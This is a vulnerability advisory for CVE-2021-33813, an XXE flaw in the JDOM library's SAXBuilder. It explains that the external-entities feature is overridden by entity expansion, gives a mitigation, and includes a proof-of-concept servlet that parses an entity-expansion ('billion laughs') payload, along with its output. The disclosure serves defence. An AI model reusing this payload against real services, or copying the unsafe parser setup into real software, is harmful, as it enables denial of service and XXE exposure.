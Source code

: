 ```yaml
---
layout: vuln
credit: estib
timeline:
    - type: 'report'
      date: '2021-02-16'
    - type: 'cve-assign'
      date: '2021-06-03'
    - type: 'deadline'
      date: '2021-05-16'
    - type: 'cve-request'
      date: '2021-06-02'
    - type: 'release'
      date: '2021-06-08'
product:
     - ' - JDOM library'

vulnerable:
- ' - JDOM-2.0.6 and before'

severity: 'moderate'
alephid: ALEPH-2021003
cve: CVE-2021-33813
date: '2021-06-03'
references:
    - src: 'JDOM XXE brunch fix PR'
      url: 'https://github.com/hunterhacker/jdom/pull/188'

title: 'XXE in JDOM library - Java'  

---
```

While working with the JDOM library, We have found a bug in SAXBuilder class that might lead to an XXE vulnerability.
According to OWASP, to avoid XXE vulnerability, we need to configure the parser not to allow external entities by 
using setFeature() method with the following values: 
``` java
parser.setFeature("http://xml.org/sax/features/external-general-entities", false).
```
We have found that it does not matter which value is set in this feature. Whether it is true or false,
external-general-entities will use the value from the Expand Entity.

Our suggested code fix is that setting user-specified features should be done after the set entity expansion. Since that user-specified configuration should have higher priority to avoid XXE.

Our mitigation, until a version fix is out, is to add configuration for ExpandEntity that should protect the parser from XXE:
``` java
builder.setExpandEntities(false);
```
Exploit example for the XXE bomb attack(billion laughs attack):
``` java
void test_SAXBuilder(HttpServletRequest request, HttpServletResponse response) throws IOException {
 
    String xmlParam = "<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY bar \"World \">
	<!ENTITY t1 \"&bar;&bar;\"><!ENTITY t2 \"&t1;&t1;&t1;&t1;\">
	<!ENTITY t3 \"&t2;&t2;&t2;&t2;&t2;\">]><foo>Hello &t3;</foo>";
    
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to false and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: false, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false, content: " + s);
    } catch (JDOMException e) {
    }
  try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
             s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false,  content: " + s);
    } catch (JDOMException e) {
    }
}
```
The output html is:
``` html
<html>
  <body>
    external-general-entities: true, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: false, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: true, ExpandEntities: false, content: Hello
    external-general-entities: true, ExpandEntities: false, content: Hello
  </body>
</html>
```
